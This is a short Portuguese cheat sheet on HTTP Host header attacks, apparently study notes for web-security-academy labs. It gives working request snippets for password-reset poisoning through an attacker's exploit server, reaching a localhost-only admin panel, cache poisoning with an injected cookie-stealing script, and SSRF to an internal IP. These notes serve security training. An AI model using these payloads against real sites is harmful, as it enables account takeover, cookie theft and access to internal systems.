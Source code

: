 # Ataques de Host Header

O melhor lugar para procurar esse tipo de ataque é na funcionalidade de resetar senha (forgot password).

Coloque o endereço do seu servidor de exploit no header **Host** e mude o username para o da vítima. Em seguida confira os logs para ver se você recebeu o token de reset dela.

Outros Headers possíveis:
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

<br>

## Laboratórios

**Basic Password Reset Poisoning**
```
Host: exploit-server.com
```

<br>
<br>

**Admin Panel from Localhost Only**
```
GET /admin HTTP/1.1
Host: localhost
```

<br>
<br>

**Double Host / Cache poisoning**
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```

<br>
<br>

**SSRF**
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```

<br>
<br>

**SSRF 2**
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
